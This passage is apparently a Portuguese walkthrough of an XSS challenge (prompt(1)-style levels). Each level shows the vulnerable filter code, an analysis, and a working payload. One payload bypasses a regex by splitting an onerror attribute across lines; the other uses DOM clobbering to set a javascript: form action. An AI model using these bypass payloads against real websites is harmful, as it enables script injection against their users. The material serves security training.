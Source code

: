 ### 🔍 Código:

```js
input = input.replace(/>|on.+?=|focus/gi, '_');
return '<input value="' + input + '" type="text">';
```

### 🧠 Análise:

A regex tenta bloquear `>` e eventos como `onload`, mas não considera novas linhas. O HTML permite quebras de linha dentro de atributos.

### 💡 Estratégia:

* Usar atributos divididos em linhas para enganar o parser.
* Usar eventos como `onresize` (executado automaticamente em IE).

### ✅ Payload:

```html
" type=image src onerror
="prompt(1)
```

*(Funciona em IE9+)*

*(Pode ser encurtado dependendo do navegador)*

---

## ✅ Level 6 - Clobbering com atributo `name`

### 🔍 Código:

```js
var segments = input.split('#');
var formURL = segments[0];
var formData = JSON.parse(segments[1]);
```

### 🧠 Análise:

O site gera um `<form>` e insere `<input name="...">` com base nos dados JSON. Se definirmos o campo `action`, podemos sobrescrever `form.action` com um input.

### 💡 Estratégia:

* Usar `javascript:` como valor do campo `action` e clobberar o DOM.

### ✅ Payload:

```js
javascript:prompt(1)#{"action":1}
```

---